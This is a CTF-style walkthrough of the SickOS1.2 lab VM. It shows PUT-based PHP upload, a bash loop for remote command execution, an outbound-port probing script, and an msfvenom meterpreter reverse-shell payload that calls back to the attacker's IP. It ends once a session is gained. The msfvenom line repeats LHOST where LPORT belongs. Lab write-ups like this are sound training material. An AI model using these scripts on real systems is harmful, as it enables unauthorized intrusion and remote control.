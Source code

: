 I will add here my methods to gain root level privileges on SickOS1.2.
After importing machine to my virtualization platform, I run arp-scan --localnet command to find out the ip address of the machine.
It seems our target's ip address is 192.168.146.174.
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/4feb2abc-6121-4505-b471-69eab86fd073)
Hence I run a nmap scan to discover open ports and running services.
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/20678f86-2d61-4a4a-bcb9-053d1b54407e)
 Port 22 and 80 is running on the target. Hence i run a nikto scan to get further data on the web application.
 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/bd586bdf-4c6d-472d-91ee-90cfa27e4ca0)

 Output shows us nikto found /test folder that might be interesting and server allows HTTP OPTIONS request that queries the supported methods by the server.
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/88887a1f-1c32-46fa-a397-563cb1ac0b1b)

 It seems this is an directory indexing folder.
 to make sure about the finding I run burp and sent an HTTP OPTIONS request to target.
 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/dd0b1e3e-dda6-46c7-960d-a0d9d0ce9b6d)
 
That's correct, and server respond us with supported functions. HTTP PUT is allowd on the target.
 Let's try with curl to upload a newly created file.

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/8d628804-48a6-4351-a887-dc82b598e630)

first time curl gave me error after a short google search, I needed to add an Expect header to my command.
And it worked!
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/d75234d3-09ff-4a46-a972-6661e931167d)
 That means, we can upload our malicious webshells to target. I decided to use pentestmonkey's built int php reverse shell that 
 is located at /usr/share/webshells in Kali. I copied to my Desktop, renamed with reverse.php and edited the file with mousepad.(I added attacker IP address)
 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/f6718b22-fdee-44d6-a171-2d7edd519e97)
 then uploaded file with curl. After that started a netcat listener to catch incoming connection request on port 1234.
 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/9e954db2-ab2d-4ce9-bd98-d8a6cded0986)

I triggered the file but nothing happened.

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/52619901-17f4-4f7d-bdd6-28d6346564ce)
 
 Also created another php payload with msfvenom on port 4444 didn't work as weel. Probably, a kind of firewall was  blocking server's reverse connection packet.
 Hence i decided to use php's shell_exec function to test whether running OS commands possible or not.
 i created a run.php file and uploaded to server . and it worked!

 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/94727201-06b1-46ad-bab7-f4304cf18a3b)

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/fc138c58-66d3-43a4-a9a5-7a9f78cb089e)

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/da50855c-87d1-436e-906f-e674bb44ca9b)

Hence I wrote a simple bash script to gain an interactive shell.(testnc.sh)
 So we can perform a kind a port scan with nc to learn allowed ports.
 #/bin/bash
while : 
do
read -p " ->" command;

 echo "<?php echo shell_exec(\"$command\"); ?>" > run.php
curl http://192.168.146.174/test/ --upload-file run.php -H "Expect: "  
sleep 1
curl 192.168.146.174/test/run.php
done
 with the codes above, i aimed to run an interactive shell commands via my terminal over php shortly.
 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/64bed9ff-5d2c-49ec-9c4a-6567f52d9449)

 Hence i moved further and after spending too much time on it i wrote a permitted port detection script(runv1.sh)

 #!/bin/bash
common_ports=(21 22 23 25 53 80 110 125 443 3128 8080 8443 8000 9000)
#while : 
#3do
#read -p " ->" command;


for item in "${common_ports[@]}"; do

nc -lp $item&
nc_pid=$!
command="nc -z -w1 192.168.146.164 $item 2>&1 && echo ****port $item seems permitted****|| echo port $item seems not permitted"
 echo "<?php echo shell_exec(\"$command\"); ?>" > run.php
curl  http://192.168.146.174/test/ --upload-file run.php -H "Expect: "  
sleep 1


curl 192.168.146.174/test/run.php
sleep 1
kill $nc_pid &>/dev/null
wait $nc_pid 2>/dev/null 

done

#done

with these codes, uploaded file will run "command" value on the target system. so target server will send me nc packets(-z) and if the target permits a spesific port, we'll learn it.
let's run it and see the result. After execution:
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/594f35d6-4ce2-4d30-8ff5-ef34cefcfc3e)


result showed me, I can use port 443 and port 8080 to get reverse shell.
to use metasploit framework, i created a php payload with msfvenom.
#msfvenom -p /php/meterpreter/reverse_tcp LHOST=192.168.146.164 LHOST=443 -f raw -o meter.php
and uploaded with curl and started a multi handler listener.
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/9031c6dc-d54e-4357-8fbf-6fb589d5a5f3)


![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/10718ea5-bb0d-46fc-9cd1-dca6771b5cff)

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/74d344f2-da7c-459f-93cf-6b45100d48a1)
 now i'll run meter.php file via browser.
 
 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/d8e1ab2d-772b-4a37-bd89-90a80f714426)

then we've the session but we need to escalate our privileges.

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/86a15ab1-e33b-4353-88ba-9b4666faebf0)


